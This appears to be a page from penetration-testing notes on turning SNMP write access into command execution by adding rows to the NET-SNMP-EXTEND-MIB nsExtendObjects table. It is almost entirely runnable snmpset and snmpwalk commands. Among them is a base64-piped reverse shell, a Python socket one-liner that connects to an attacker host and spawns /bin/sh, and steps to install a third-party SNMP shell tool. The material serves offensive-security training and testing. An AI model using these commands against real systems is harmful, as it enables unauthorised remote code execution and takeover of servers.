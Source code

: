 {% tabs %}
{% tab title="Test" %}
The first thing we have to do is to inject a command in an additional row to the "**nsExtendObjects**" table:

```bash
# General syntax:
snmpset -m +NET-SNMP-EXTEND-MIB -v <VERSION> -c <COMMUNITY STRING> <IP> 'nsExtendStatus."evilcommand1"' = createAndGo 'nsExtendCommand."evilcommand1"' = <BINARY PATH> 'nsExtendArgs."evilcommand1"' = '<ARGUMENTS>'
# Example:
snmpset -m +NET-SNMP-EXTEND-MIB -v <VERSION> -c <COMMUNITY STRING> <IP> 'nsExtendStatus."evilcommand1"' = createAndGo 'nsExtendCommand."evilcommand1"' = /bin/echo 'nsExtendArgs."evilcommand1"' = 'hello world'
```

To activate the injected command, we can do it with `snmpwalk`:

```bash
snmpwalk -v <VERSION> -c <COMMUNITY STRING> <IP> NET-SNMP-EXTEND-MIB::nsExtendObjects
```
{% endtab %}

{% tab title="Reverse Shell" %}
```bash
# Example:
snmpset -m +NET-SNMP-EXTEND-MIB -v <VERSION> -c <COMMUNITY STRING> <IP> 'nsExtendStatus."evilcommand"' = destroy > /dev/null
echo "<REVERSE SHELL>" | base64
snmpset -m +NET-SNMP-EXTEND-MIB -v <VERSION> -c <COMMUNITY STRING> <IP> 'nsExtendStatus."evilcommand"'  = createAndGo 'nsExtendCommand."evilcommand"' = /bin/bash 'nsExtendArgs."evilcommand"' = "-c \\\"echo <REVERSE SHELL ENCODED> | base64 -d | sh\\\"" > /dev/null

# Another example:
snmpset -m +NET-SNMP-EXTEND-MIB -v <VERSION> -c <COMMUNITY STRING> <IP> 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"<LHOST>\",<LPORT>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'

# Activate:
snmpwalk -v <VERSION> -c <COMMUNITY STRING> <IP> NET-SNMP-EXTEND-MIB::nsExtendObjects
```
{% endtab %}

{% tab title="SNMP Shell" %}
```bash
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt

rlwrap python3 shell.py <IP> -c <COMMUNITY STRING>
```
{% endtab %}
{% endtabs %}

